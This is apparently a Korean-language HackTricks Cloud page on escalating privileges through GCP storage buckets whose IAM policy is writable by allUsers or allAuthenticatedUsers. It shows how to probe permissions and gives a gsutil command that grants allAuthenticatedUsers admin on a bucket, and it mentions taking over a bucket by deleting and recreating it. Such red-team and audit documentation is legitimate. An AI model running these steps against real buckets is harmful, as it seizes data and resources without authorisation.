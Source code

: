 # GCP - 퍼블릭 버킷 권한 상승

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 버킷 권한 상승

버킷 정책이 “allUsers” 또는 “allAuthenticatedUsers”가 **버킷 정책에 쓸 수 있도록 허용**(즉, **storage.buckets.setIamPolicy** 권한)했다면, 누구나 버킷 정책을 수정하고 자신에게 전체 접근 권한을 부여할 수 있습니다.

### 권한 확인

버킷에 대한 권한을 확인하는 방법은 2가지가 있습니다. 첫 번째는 `https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam`에 요청을 하거나 `gsutil iam get gs://BUCKET_NAME`을 실행하여 권한을 요청하는 것입니다.

하지만, 사용자가 (잠재적으로 allUsers 또는 allAuthenticatedUsers에 속하는) 버킷의 iam 정책을 읽을 권한(storage.buckets.getIamPolicy)이 없다면, 이는 작동하지 않습니다.

항상 작동하는 다른 옵션은 버킷의 testPermissions 엔드포인트를 사용하여 지정된 권한이 있는지 확인하는 것입니다. 예를 들어, 다음에 접근할 수 있습니다: `https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update`

### 권한 상승

`allAuthenticatedUsers`에게 `Storage Admin` 권한을 부여하기 위해 다음을 실행할 수 있습니다:
```bash
gsutil iam ch allAuthenticatedUsers:admin gs://BUCKET_NAME
```
또 다른 공격은 **버킷을 제거하고 당신의 계정에서 다시 생성하여 소유권을 훔치는 것**입니다.

## References

* [https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/](https://rhinosecuritylabs.com/gcp/google-cloud-platform-gcp-bucket-enumeration/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
